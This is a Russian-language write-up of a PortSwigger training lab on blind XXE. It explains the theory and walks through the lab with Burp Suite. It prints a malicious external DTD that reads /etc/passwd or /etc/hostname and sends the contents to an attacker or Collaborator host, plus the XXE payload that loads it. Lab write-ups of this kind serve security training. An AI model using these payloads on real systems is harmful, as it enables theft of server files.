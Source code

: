 # Exploiting blind XXE to exfiltrate data using a malicious external DTD

## Theory

<h3>Использование слепого XXE для внеполосной эксфильтрации данных</h3>

Обнаружение слепой XXE-уязвимости с помощью внеполосных методов — это очень хорошо, но на самом деле это не демонстрирует, как можно использовать эту уязвимость. Чего на самом деле хочет добиться злоумышленник, так это эксфильтрации конфиденциальных данных. Это может быть достигнуто с помощью слепой уязвимости XXE, но при этом злоумышленник размещает вредоносное DTD в системе, которую он контролирует, а затем вызывает внешнее DTD из внутриполосной полезной нагрузки XXE.

Ниже приведен пример вредоносного DTD для эксфильтрации содержимого файла /etc/passwd:
```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```

Это DTD выполняет следующие шаги:

* Определяет сущность параметра XML, называемую файлом, содержащую содержимое файла /etc/passwd.
* Определяет сущность параметра XML с именем eval, содержащую динамическое объявление другой сущности параметра XML с именем exfiltrate. Объект exfiltrate будет оцениваться путем отправки HTTP-запроса к веб-серверу злоумышленника, содержащего значение файлового объекта в строке запроса URL.
* Использует сущность eval, которая вызывает выполнение динамического объявления сущности exfiltrate.
* Использует объект exfiltrate, чтобы его значение оценивалось путем запроса указанного URL-адреса.

Затем злоумышленник должен разместить вредоносное DTD в системе, которую он контролирует, обычно загружая его на свой собственный веб-сервер. Например, злоумышленник может отправить вредоносное DTD по следующему URL-адресу:
```
http://web-attacker.com/malicious.dtd
```

Наконец, злоумышленник должен отправить уязвимому приложению следующую полезную нагрузку XXE:
```
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://web-attacker.com/malicious.dtd"> %xxe;]>
```

Эта полезная нагрузка XXE объявляет сущность параметра XML с именем xxe, а затем использует сущность в DTD. Это заставит синтаксический анализатор XML получить внешнее DTD с сервера злоумышленника и интерпретировать его как встроенное. Затем выполняются шаги, определенные в вредоносном DTD, и файл /etc/passwd передается на сервер злоумышленника.

Этот метод может не работать с некоторым содержимым файла, включая символы новой строки, содержащиеся в файле /etc/passwd. Это связано с тем, что некоторые синтаксические анализаторы XML извлекают URL-адрес из определения внешней сущности с помощью API, который проверяет символы, которые разрешено использовать в URL-адресе. В этой ситуации можно использовать протокол FTP вместо HTTP. Иногда невозможно извлечь данные, содержащие символы новой строки, поэтому вместо этого может быть выбран файл, такой как /etc/hostname.

## Writeup

Главная страница:

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/XXE_injection/Exploiting_blind_XXE_to_exfiltrate_data_using_a_malicious_external_DTD/assets/1.png)

Выберем любой продукт.

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/XXE_injection/Exploiting_blind_XXE_to_exfiltrate_data_using_a_malicious_external_DTD/assets/2.png)

Перейдем на его страницу и спустимся в самый низ.

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/XXE_injection/Exploiting_blind_XXE_to_exfiltrate_data_using_a_malicious_external_DTD/assets/3.png)

Нажмем на кнопку "Check stock" и перехватим запрос. Отправляем его в Repeater.

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/XXE_injection/Exploiting_blind_XXE_to_exfiltrate_data_using_a_malicious_external_DTD/assets/4.png)

Запустим Burp Collaborator Client. Скопируем DNS.

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/XXE_injection/Exploiting_blind_XXE_to_exfiltrate_data_using_a_malicious_external_DTD/assets/5.png)

У нас есть подготовленный exploit server. Перейдем к нему.

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/XXE_injection/Exploiting_blind_XXE_to_exfiltrate_data_using_a_malicious_external_DTD/assets/6.png)

В поле Body впишем наш эксплоит, который будет вызываться с помощью XXE. Вставляем скопированный ранее DNS. Код эксплоита:
```
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://ufd9r1q5c1qll4a9tah06npuelkb80.burpcollaborator.net/?x=%file;'>">
%eval;
%exfil;
```

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/XXE_injection/Exploiting_blind_XXE_to_exfiltrate_data_using_a_malicious_external_DTD/assets/7.png)

Затем скопируем URL-адрес ведущий на наш эксплоит.

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/XXE_injection/Exploiting_blind_XXE_to_exfiltrate_data_using_a_malicious_external_DTD/assets/8.png)

Модифицируем запрос. Вставляем скопированный URL-адрес. Отправляем запрос. Код экплоита:
```
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-0a1100b903877a54c0d52ce9011c0043.web-security-academy.net/exploit"> %xxe;]>
```

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/XXE_injection/Exploiting_blind_XXE_to_exfiltrate_data_using_a_malicious_external_DTD/assets/9.png)

Перейдем в Burp Collaborator Client. теперь мы можем заметить результат DNS lookup.

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/XXE_injection/Exploiting_blind_XXE_to_exfiltrate_data_using_a_malicious_external_DTD/assets/10.png)

Подтверждаем ответ и получаем ответ от сервера.

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/XXE_injection/Exploiting_blind_XXE_to_exfiltrate_data_using_a_malicious_external_DTD/assets/11.png)

